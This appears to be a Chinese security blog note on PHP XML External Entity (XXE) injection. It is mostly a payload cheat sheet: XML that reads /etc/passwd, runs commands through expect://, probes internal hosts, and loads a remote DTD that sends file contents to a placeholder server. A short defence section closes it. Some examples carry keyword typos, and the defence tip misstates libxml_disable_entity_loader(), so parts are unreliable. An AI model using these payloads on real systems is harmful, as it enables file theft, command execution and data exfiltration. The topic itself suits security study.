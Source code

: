 ```yaml
---
layout: post
title: PHP_XXE 
date: 2022-10-1
categories: blog
tags: [笔记]
description: php_XXE漏洞 梳理

---
```


### PHP_XXE

****

#### **XXE**(XML External Entity Injection) 

外部实体注入，当web服务器解析XML文件时允许外部实体的引入引起的漏洞，在php中当`libxml库版本<=2.9.0`时，默认开启引用外部实体，在phpinfo界面可查看，此漏洞与php版本无关  

xml对于大小写敏感，xml中不允许出现%,<,>等等，要使用的话必须要经过转义,xml只能有一个根节点

#### DTD(DocumentType Definition)

文档类型定义,是以dtd为后缀的自定义约束文件，DTD定义了XML文档内容的结构，保证XML以一致的格式存储数据，XML允许用户创建自己的DTD约束  
将.dtd文件托管在VPS上，使服务器获取该文件并执行其中的恶意命令可以窃取服务器文件等

#### XML格式

```xml-dtd
#内部实体调用
<?xml version="1.0" encoding="utf-8" ?> #xml声明
<!DOCTYPE evil[ #内部DTD 文档类型定义
    <!ELEMENT evil ANY> #声明约束元素，内容随意
    <!ENTITY xxe YSYTEM "file:///etc/passwd"> #内部实体
]>
<test>  #文档元素
<name>&xxe;</name> #对实体的引用
</test>

#外部实体调用
<!ENTITY % payload SYSTEM "flie:///etc/passwd">
<!ENTITY % test STSTEM "<!ENTITY &#37; pass SYSTEM 'http://x.x.x.x/index.php?test=%payload'>">
 #这是一个叫test.dtd的外部dtd文件
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test[
	<!ENTITY % cmd "http://x.x.x.x/test.dtd"> 
	%cmd;
	%payload;
	%test;
]>

```



#### 基础payload整理

```xml-dtd
#文件读取
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
    <!ELEMENT a ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<a>
    <name>&xxe;</name>
</a>


#命令执行，需要expect扩展
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "expect://ifconfig" >]>
<root>
<name>&xxe;</name>
</root>

#内网探测
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY>
<!ENTITY xxe SYSTEM "http://x.x.x.x:PORT">]>
<root>
<name>&xxe;</name>
</root>

#远程加载恶意dtd
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ 
<!ENTITY % pe SYSTEM "http://x.x.x.x/evil.dtd">
%pe;
%param1;
]>
<foo>&external;</foo>
#evil.dtd
<!ENTITY % payload SYSTEM "file:///etc/passwd">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'http://x.x.x.x/page?data=%payload;'>">

<!DOCTYPE root[
        <!ENTITY  xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
]>
<root><name>&xxe;</name></root>

#php filter文件读取
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root[
        <!ENTITY  xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
]>
<root><name>&xxe;</name></root>
```



#### php_XXE防御

禁用`libxml_disable_entity_loader()`函数  
升级libxml库版本>2.9.0  
过滤用户提交的XML数据

